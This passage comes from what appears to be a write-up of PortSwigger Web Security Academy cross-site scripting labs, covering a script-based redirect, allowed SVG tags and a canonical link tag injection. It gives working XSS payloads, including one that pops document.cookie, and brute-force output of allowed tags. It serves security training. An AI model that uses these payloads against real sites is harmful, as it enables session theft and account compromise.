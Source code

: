 `<iframe>` cannot be used for this because it seems to be blocked by Firefox, and I'm presuming it is blocked on the client's Chrome browser as well.

As such, `<script>` tags and `location` to redirect the client works.

```js
<script>
location = 'https://0a1300b703f73ede80a599b600d10016.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

## Lab 15: SVG Markup is allowed

`<svg>` tags are allowed, but I still brute forced the rest:

```
$ python3 brutexss.py
[+] Allowed events: animatetransform
[+] Allowed events: image
[+] Allowed events: svg
[+] Allowed events: title
```

Using the cheatsheet, there are a few possible payloads using `svg` and `animatetransform`. This works: `<svg><animatetransform onbegin=alert(1) attributeName=transform>`.

## Lab 16: XSS in Canonical Link Tag

A canonical link element is an element used in the head section of HTML to indicate that another page is representative of the content on the page.

Based on the definition of the above, I tested to see if my query parameters were injected into HTML, and they were:

![](../../.gitbook/assets/portswigger-xss-writeup-image-7.png)

Entering an invalid HTML sequence causes a 404 error. To solve this lab, a certain set of keys has to be entered. 

Here's the link to the research:

{% embed url ="https://portswigger.net/research/xss-in-hidden-input-fields" %}

First, escape the string for the URL of the site using `'`, then enter the payload:

```js
accesskey='x'onclick='alert(1)'
```

This would solve the lab.

